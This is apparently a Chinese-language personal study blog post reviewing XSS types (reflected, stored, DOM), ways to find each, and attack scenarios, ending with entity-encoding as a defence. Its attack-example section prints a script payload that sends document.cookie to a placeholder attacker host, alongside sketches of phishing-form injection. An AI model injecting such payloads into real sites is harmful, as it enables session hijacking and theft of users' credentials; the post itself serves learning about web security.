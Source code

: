 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      复习日记-web基础-XSS               # 标题 
subtitle:   回顾以及整理一下自己的知识文档
date:       2020-03-27              # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - web漏洞
---
```




## 0x00简述：
`Cross-site Scripting`:
>跨站脚本攻击：往web页面或者数据库中注入恶意Script代码，当用户浏览该页面时script脚本会被执行，从而达到恶意攻击用户的目的。
xss函数通常通过输出函数将javascript代码输出到html页面中，通过用户本地浏览器执行，所以xss漏洞的关键在于寻找参数未过滤的输出函数。
我们来介绍一下xss的类型：反射型xss、存储型xss和Dom型

- 1、反射型XSS：通过发出含xss代码的恶意链接并经由用户点击访问该链接后返回带有xss代码的恶意脚本触发该类型攻击，重要的是反射型xss是一次性的，不会损害服务器。
挖掘思路：
对于大多数反射型的xss，都是通过url进行传播，所以我们首先寻找的是哪些url的参数可以在页面中显示，例如大多数的搜索栏，查询等，由于浏览器越来越智能的筛选xss，自带反射型xss过滤，所以这类漏洞会越来越少。
- 2、存储型XSS：攻击者把脚本放在目标服务器的数据库或者文件中，有很高的隐蔽性（多见于论坛，博客和留言板）。
挖掘思路：
这类xss代码都是存在于服务端，因此我们要找到的是网站将数据存储到后端的功能，正是如此才能实现存储型xss。
- 3、DOM型XSS：是一种基于DOM文档对象模型的一种漏洞，DOM型不会和后台交互，是完完全全的web前端安全问题，当客户端的脚本程序可以通过DOM动态地检查和修改页面，而且攻击者可以控制一些DOM对象时，该漏洞即可触发
挖掘思路：
这类xss中，如果页面js中存在获取外部输入内容的可利用函数，且外部输入内容未经过有效过滤就传入危险的输出函数直接输出到页面中或传入eval等危险执行函数就会在页面上直接解析恶意js代码，导致DOM型xss的存在。
其中可利用函数可以为：
`document.URL`
`document.URLUnencoded`
`document.location（及其许多属性）`
`document.referrer`
`window.location（及其许多属性）`
`location`
`location.href`
`location.search`
`location.hash`
`location.pathname`

## 0x01 攻击举例：
- 1、劫持会话：（非httponly）
大多数web应用程序都维护用户会话，以便标识用户，因此用户会话cookie是敏感信息，如果攻击者能通过劫持该会话冒充合法用户，则称为会话劫持。
简单的实例思路：
xss攻击语句：`<script>alert(document.cookie)</script>`直接弹出  
`<script>new image().src="http://ip/port?output="+document.cookie;</script>`发送会话cookie到攻击者控制的机器。
我们首先可以尝试直接弹出会话cookie确认，如需cookie文件的可以使用第二个payload发送cookie。
- 2、执行未经授权的活动
在可控参数中，利用javascript的适当参数，将请求伪造到用户页面，诱惑其点击即可，我们在可控参数中可以将scirpt脚本的功能进行描述实现，一般来说伪造的是http请求。
- 3、网络钓鱼
payload为表单，将表单注入到易受xss攻击的页面，然后发送用户数据到攻击者指定的服务器
- 4、窃取敏感信息
在我们的服务器上面构建出具有窃取敏感信息（截屏发文件等）功能的js文件，以及敏感信息处理文件，一旦受害者访问我们的链接，敏感信息文件就会发送到相应的服务器上。

## 0x02结论
xss漏洞能带来重大风险，不容小觑，xss攻击可能窃取机密信息，冒充用户，执行未经授权的活动等。

保护措施：最好的便是将特殊符号转化为等效的html实体，这样就能防止script脚本的执行。




